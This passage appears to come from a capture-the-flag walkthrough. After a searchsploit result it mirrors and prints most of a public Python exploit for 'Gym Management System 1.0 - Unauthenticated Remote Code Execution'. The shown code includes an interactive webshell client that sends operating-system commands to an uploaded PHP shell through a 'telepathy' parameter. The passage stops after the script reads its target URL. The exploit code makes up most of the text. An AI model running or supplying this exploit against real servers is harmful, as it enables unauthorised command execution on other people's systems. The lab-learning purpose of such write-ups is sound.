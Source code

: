 ```
-------------------------------------------------------------------------------------------------- -----------------------
Shellcodes: No Results
```

Apart from the other exploits, the `Gym Management System 1.0 - Unauthenticated Remote Code Execution` should catch our eye, since we do not have any credentials.

Let us mirror it in our current directory and see how it works.

```python
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
```